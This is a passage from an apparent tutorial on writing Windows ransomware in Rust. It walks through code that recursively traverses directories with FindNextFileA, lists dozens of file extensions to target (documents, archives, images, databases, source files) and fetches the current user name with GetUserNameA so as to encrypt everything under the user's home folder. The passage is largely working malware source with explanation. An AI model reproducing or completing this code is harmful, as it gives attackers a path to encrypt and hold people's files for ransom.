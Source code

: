 
If it is a normal directory, we add the directory name into our current path, and call **traverse** on it all over again.


At the end, we call **FindNextFileA** to look for the next file or subdirectory to process. If there is no other file in the directory, the function will return 0, and we can exit from the function.


So when are we populating the **VALID_EXTENSION_VEC**, and how to we get the original directory to traverse? We will need a parent function calling ***traverse*** as a helper function. Let's called this function ***traverse_and_encrypt***.

First, we will create **VALID_EXTENSION_VEC** as a static mutable Vector. This is because if we create it as an instance variable in  ***traverse***, the stack will grow significantly every time we enter another recursive calls. It is better to just have a global static Vector.


``` rust
    static mut VALID_EXTENSION_VEC: Vec<&str> = Vec::new();
```


Note: we can't call functions to populate this Vector because Rust simply does not let us do so. Therefore, we must populate it inside ***traverse_and_encrypt***.


``` rust
    let ext = [
        ".pl", ".7z", ".rar", ".m4a", ".wma", ".avi", ".wmv", ".d3dbsp", ".sc2save", ".sie",
        ".sum", ".bkp", ".flv", ".js", ".raw", ".jpeg", ".tar", ".zip", ".tar.gz", ".cmd",
        ".key", ".DOT", ".docm", ".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx",
        ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx",
        ".html", ".xml", ".psd", ".bmp", ".pdf", ".py", ".rtf",
    ];

    // push all valid extension into VALID_EXTENSION_VEC
    for each in ext.iter() {
        VALID_EXTENSION_VEC.push(each.clone());
    }
```

Next, we must determine which directory to traverse through. On each unique machine, this will be difference. Typically, we want to encrypt from the directory **C://Users//user_name//** where *user_name* is the user name of the current user of this computer.


In order to get this user name, we must call [GetUserNameA](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-getusernamea).


``` rust
    let mut size: u32 = 0;
    let mut buffer: Vec<i8> = Vec::new();
    let mut user_name: Vec<u8> = Vec::new();

    // get length of name
    GetUserNameA(null_mut(), &mut size);
    buffer.resize(size as usize, 0i8);
    // get username
    GetUserNameA(buffer.as_mut_ptr(), &mut size);
    user_name = std::mem::transmute(buffer);
    user_name.resize((size - 1) as usize, 0u8); // eliminate the null terminator
```
